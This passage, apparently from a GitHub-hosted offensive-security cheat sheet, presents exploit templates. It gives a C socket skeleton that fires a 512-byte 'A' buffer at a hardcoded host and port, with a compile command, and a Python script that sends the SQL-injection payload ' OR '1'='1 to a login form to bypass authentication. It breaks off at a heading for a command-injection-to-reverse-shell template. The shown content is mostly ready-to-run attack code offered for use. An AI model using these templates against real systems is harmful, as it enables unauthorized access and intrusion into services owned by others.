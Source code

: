 ***

### VIII. 🧱 C Exploit Skeleton (Linux Socket)

```c
#include <stdio.h>
#include <string.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <unistd.h>

int main(){
    int s = socket(AF_INET, SOCK_STREAM, 0);
    struct sockaddr_in server;
    server.sin_addr.s_addr = inet_addr("10.10.10.5");
    server.sin_family = AF_INET;
    server.sin_port = htons(1337);

    connect(s, (struct sockaddr *)&server, sizeof(server));
    char payload[512];
    memset(payload, 'A', 512);
    send(s, payload, strlen(payload), 0);
    close(s);
    return 0;
}
```

Compile:

```bash
gcc exploit.c -o exploit
```

***

### IX. 🧠 Python Exploit Template — Auth Bypass / SQLi

```python
import requests

url = "http://target/login"
payload = "' OR '1'='1"
data = {"username": payload, "password": "pass"}

r = requests.post(url, data=data)
if "Welcome" in r.text:
    print("[+] Auth bypass successful")
else:
    print("[-] Failed")
```

***

### X. 🧩 Exploit Template — Command Injection → Reverse Shell
